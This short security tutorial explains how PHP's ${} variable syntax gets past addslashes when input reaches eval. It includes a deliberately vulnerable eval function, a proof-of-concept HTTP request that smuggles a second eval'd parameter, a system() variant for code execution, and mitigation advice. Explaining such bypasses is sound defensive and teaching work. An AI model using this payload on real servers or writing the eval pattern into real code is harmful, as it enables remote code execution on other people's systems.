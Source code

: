 ## Bypassing the PHP function `addslashes`

Quotes and apostrophes are parsed different in `PHP` (similar as in `bash`). Variables within quotes `"$a"` will be interpreted, meaning they will be resolved. Same goes for apostrophes within quotes `"'$a'"`.  Variables within Apostrophes won't be interpreted `'$a'`.
To encapsulate the variable that is meant to be resolved when other characters are appended to the string (e.g. `$a123`), curly brackets come in handy `${a}` they allow the following to be interpreted in an expected manner: `${a}123` since `123` is not seen as a part of the variable `$a` , the content of `$a` will be interpreted.
Now it is also possible to define a new variable like this and assign a value to it `${a}=123`. Since we can encapsulate what the variable name should be, its possible to call a function within the curly brackets, which return value will be used as the variable name and then assign a value to it `${phpinfo()}=123`. As an example, the values defined in this operation can be dumped with `var_dump(${phpinfo()}=123)`. The `var_dump()` function essentially dumps all information for the variable passed to it.

## Exploitation / POC
### Vulnerable function
```
function vuln($vulnerable){
    $vulnerable = addslashes($vulnerable);
    # perform some other actions
    eval('echo "' . $vulnerable . '";');
}
```
- while `test"; phpinfo(); echo "test` would be prevented by calling the `addslashes` function, `${phpinfo()}` certainly would not.

### Remote exploit example

```Burp
GET /index.php?vulnerable=var_dump(${eval($_GET[1])}=123)&1=phpinfo(); HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
DNT: 1
Cache-Control: max-age=0
```

For code execution replace `phpinfo()` with `system("sleep%2010")`
In this scenario the vulnerable parameter is evaluated by the `addslashes` function before it is processed further.
The variable `1=` is not evaluated by the `addslashes` function, thus bypassing it completely.

### Mitigation

Implement proper input validation and do not process user input unsanitized (especially not by functions such as `eval` or `system`). The `addslashes` function is not designed as a security mechanism and should not be used as such.

### Source:
- [https://0xalwayslucky.gitbook.io/cybersecstack/web-application-security/php](https://0xalwayslucky.gitbook.io/cybersecstack/web-application-security/php)
- [https://www.programmersought.com/article/30723400042/](https://www.programmersought.com/article/30723400042/)

- [https://www.php.net/manual/de/function.addslashes.php](https://www.php.net/manual/de/function.addslashes.php)

- [https://www.php.net/manual/de/function.var-dump.php](https://www.php.net/manual/de/function.var-dump.php)
